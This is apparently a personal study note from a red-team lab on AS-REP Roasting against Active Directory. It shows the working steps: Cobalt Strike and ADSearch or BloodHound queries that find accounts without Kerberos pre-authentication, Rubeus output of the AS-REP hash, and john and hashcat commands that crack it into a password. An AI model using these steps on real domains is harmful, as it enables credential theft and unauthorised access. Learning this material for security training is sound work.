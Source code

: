 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[AS-REP Roasting]]  
___

## Description:  
If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password. This configuration is also enabled on the User Object and is often seen on accounts that are used on Linux systems.


In CobaltStrike:

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
    [+] cn                : Oracle Service
    [+] distinguishedname : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
    [+] samaccountname    : svc_oracle
```


In Bloodhound:
```
MATCH (u:User {dontreqpreauth:true}) RETURN u
```

Now request the AS-REP hash with:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:svc_oracle /nowrap

[*] Action: AS-REP roasting

[*] Target User            : svc_oracle
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for AS-REP roastable users
[*] SamAccountName         : svc_oracle
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\svc_oracle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$svc_oracle@dev.cyberbotic.io:F3B1A1 [...snip...] D6D049
```

Use `--format=krb5asrep --wordlist=wordlist svc_oracle` for **john** or `-a 0 -m 18200 svc_oracle wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5asrep --wordlist=wordlist svc_oracle
Passw0rd!        ($krb5asrep$svc_oracle@dev.cyberbotic.io)

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:29 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
